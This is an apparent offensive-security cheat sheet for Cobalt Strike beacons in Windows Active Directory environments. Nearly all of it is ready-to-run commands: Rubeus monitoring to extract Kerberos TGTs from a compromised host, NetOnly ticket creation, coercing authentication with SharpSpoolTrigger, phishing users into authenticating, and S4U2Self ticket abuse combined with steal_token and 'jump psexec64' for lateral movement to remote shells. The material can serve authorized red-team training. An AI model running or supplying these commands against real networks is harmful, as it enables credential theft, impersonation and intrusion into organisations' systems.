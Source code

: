 # Commands Cheat Sheet



{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/command-control/cobalt-strike/" %}

##

## Windows Command Line tools

### Debugging & Helper commands.

#### View error message

```powershell
[-] could not upload file: 32 - ERROR_SHARING_VIOLATION
C:\>net helpmsg 32
The process cannot access the file because it is being used by another process.
```

### Recon & Enumeration (Windows)

#### List named pipes (SMB)

```powershell
PS C:\> ls \\.\pipe\
```

#### tcp connections

```powershell
PS> netstat -anop tcp
```

```powershell
PS> netstat -anop tcp | findstr 1337
```



## Kerberos Tickets

### Extract TGT's from compromised host

#### Rubeus

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe monitor /interval:10 /nowrap
beacon> jobkill
```

### Request NetOnly Kerberos Ticket

#### Rubeus

Below will open a command prompt with the NetOnly ticket. We can then use steal\_token \<PID> and impersonate that user.

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly /
program:C:\Windows\System32\cmd.exe /ticket<user-ticket>
```

## Coerce Host Authentication

If we compromised a host, we can try to force an authentication attempt or phish a user to harvest TGTs.

#### SharpSpoolTriggers

```
beacon> execute-assembly C:\Tools\Rubeus.exe monitor /interval:10 /nowrap
beacon> execute-assembly C:\Tools\SharpSpoolTrigger.exe <target-hostname> <compromised-hostname>
```

#### Phishing

We can use Rubeus monitor and send an email to trick a user into authenticating or clicking on a host. The interaction can be as simple as including `dir \\comromised-host`

### Using Kerberos Tickets to spawn remote shell

#### TGT

```sh
// Rubeus triage, dump or monitor to get a TGT.

beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly 
/program:C:\Windows\System32\cmd.exe /ticket:<remote host users TGT>

beacon> steal_token <PID>

beacon> jump psexec64 <remote host FQDN> smb
```



#### TGS (S4U2Self Trick)

```sh
// Rubeus triage, dump or monitor to get TGT
// Get TGS from TGT

Method 1: Get TGS, create sacrificial login, and steal token.

beacon> execute-assembly C:\Tools\Rubeus.exe s4u /impersonateuser:cfoxy /self 
/altservice:cifs/<host-FQDN> /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap

beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
/domain:ROTTA /username:cfoxy /password:FakePass /ticket:doIFyD[...]MuaW8=

beacon> steal_token <PID>

beacon> jump psexec64 <remote host FQDN> smb

------------------------------------------------------------------------------------------

Method 2: (Create sacrificial login session first and pass to s4u

beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
/domain:ROTTA /username:cfoxy /password:FakePass /ticket:doIFyD[...]MuaW8=

beacon> execute-assembly C:\Tools\Rubeus.exe s4u /impersonateuser:cfoxy /self 
/altservice:cifs/<host-FQDN> /user:dc-2$ /ticket:doIFuj[...]lDLklP /self /ptt

beacon> run klist
beacon> ls \\<remote-host-FQDN>
beacon> jump psexec64 <remote host FQDN> smb
```
